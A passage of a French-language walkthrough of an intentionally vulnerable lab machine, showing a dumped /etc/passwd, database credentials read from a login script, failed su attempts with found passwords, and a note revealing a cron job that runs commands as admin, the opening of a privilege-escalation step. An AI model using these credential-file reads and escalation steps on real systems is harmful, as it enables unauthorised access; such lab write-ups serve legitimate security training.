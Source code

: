 ```console
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
saslauth:x:499:76:Saslauthd user:/var/empty/saslauth:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
vboxadd:x:498:1::/var/run/vboxadd:/bin/false
eezeepz:x:500:500::/home/eezeepz:/bin/bash
admin:x:501:501::/home/admin:/bin/bash
fristigod:x:502:502::/var/fristigod:/bin/bash
fristi:x:503:100::/var/www:/sbin/nologin

bash-4.1$ cat /var/www/html/fristi/checklogin.php
cat /var/www/html/fristi/checklogin.php

--snip--
$host="localhost"; // Host name
$username="eezeepz"; // Mysql username
$password="4ll3maal12#"; // Mysql password
$db_name="hackmenow"; // Database name
$tbl_name="members"; // Table name
--snip--
```

Malheureusement, les mots de passe trouvés jusqu'à présent ne permettent pas d'élever nos privilèges.

```console
bash-4.1$ su - eezeepz
su - eezeepz
Password: 4ll3maal12#
su: incorrect password

bash-4.1$ su - eezeepz
su - eezeepz
Password: keKkeKKeKKeKkEkkEk
su: incorrect password
```

## Élévation de privilèges (admin)

On trouve dans le répertoire d'eezeepz un petit mot signé Jerry (admin).

```console
bash-4.1$ cat /home/eezeepznotes.txt
cat /home/eezeepznotes.txt
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
```

